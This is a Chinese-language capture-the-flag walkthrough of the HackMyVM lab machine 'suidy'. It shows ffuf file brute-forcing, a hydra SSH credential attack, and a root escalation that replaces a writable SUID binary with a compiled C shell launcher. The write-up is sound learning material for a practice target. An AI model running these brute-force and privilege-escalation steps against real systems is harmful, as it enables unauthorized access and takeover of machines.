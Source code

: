 ```yaml
---
{"dg-publish":true,"tags":["HMV","ffuf","SUID提权","hydra"],"难度":"⭐️⭐️⭐️⭐️⭐️","作者":"sml","permalink":"/24-渗透/HMV/5.suidy/","dgPassFrontmatter":true,"noteIcon":"2","created":"2024-11-22T19:13:18.847+08:00"}
---
```




## 1. 基本信息^toc

- [[24-渗透/HMV/5.suidy#1. 基本信息^toc\|1. 基本信息]]
- [[24-渗透/HMV/5.suidy#2. 信息收集\|2. 信息收集]]
	- [[24-渗透/HMV/5.suidy#2.1. 目录扫描\|2.1. 目录扫描]]
- [[24-渗透/HMV/5.suidy#3. 爆破文件\|3. 爆破文件]]
- [[24-渗透/HMV/5.suidy#4. ssh连接\|4. ssh连接]]

```
靶机链接：https://hackmyvm.eu/machines/machine.php?vm=suidy
```



```
作者：sml
```


```
难度：⭐️⭐️⭐️⭐️⭐️
```



```
知识点：ffuf  hydra  SUID替换提权
```

## 2. 信息收集

端口扫描

```Bash
Nmap scan report for 192.168.9.7
Host is up (0.00015s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 08:00:27:B1:28:F4 (Oracle VirtualBox virtual NIC)
```
### 2.1. 目录扫描

![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/5.suidy.001.png)

没什么东西，只有一个robots.txt

![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/5.suidy.002.png)

看下网页源码

![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/5.suidy.003.png)

看下rotbots.txt

![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/5.suidy.004.png)

翻到最下面可以看到有一个目录

![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/5.suidy.005.png)

访问目录

![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/5.suidy.006.png)

![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/5.suidy.007.png)

那就是要我们爆破目录，获取到这个.txt文件

下载seclist字典https://github.com/danielmiessler/SecLists

## 3. 爆破文件

利用fuff工具进行爆破

```Bash
ffuf -u http://192.168.9.7/shehatesme/FUZZ.txt -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
```
这里爆破出了好多结果

加一个-od参数 输出到result目录

```Bash
ffuf -u http://192.168.9.7/shehatesme/FUZZ.txt -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -od result
```
![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/5.suidy.008.png)

看一下输出的文件内容格式

![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/5.suidy.009.png)

下面这个就是账户密码

我们利用正则表达式将其提取出来

```Bash
tail -q -n 1 \* | sort | uniq | tee yhm.txt
```
然后把斜杠替换成:

![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/5.suidy.010.png)

```Bash
hydra爆破
hydra -C ssh.txt  192.168.9.7 ssh
```
![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/5.suidy.011.png)

## 4. ssh连接

```Bash
ssh theuser@192.168.9.7
```
![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/5.suidy.012.png)

\3. SUID替换提权

```Bash
theuser@suidy:/home/suidy$ find / -perm -4000 2>/dev/null
/home/suidy/suidyyyyy
/usr/bin/su
/usr/bin/umount
/usr/bin/mount
/usr/bin/gpasswd
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/chsh
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
```
这里有一个suidyyyy 可执行文件

看下这个文件

![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/5.suidy.013.png)

这里说明我们当前用户theuser对这个文件是有读写权限的。而且这个文件被设置了suid 与sgid

那我们将这个文件进行替换即可利用SUID执行任意文件

我们新建一个 power.c

```Bash
#include <stdio.h>
int main() {
        setuid(0);           
        setgid(0);  
        system("/bin/bash -p");
        }
```


```Bash
gcc  power.c -o  suidyyyyy 编译
cp suidyyyyy /home/suidy/suidyyyyy 复制替换
./suidyyyyy 执行提权
```
![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/5.suidy.014.png)


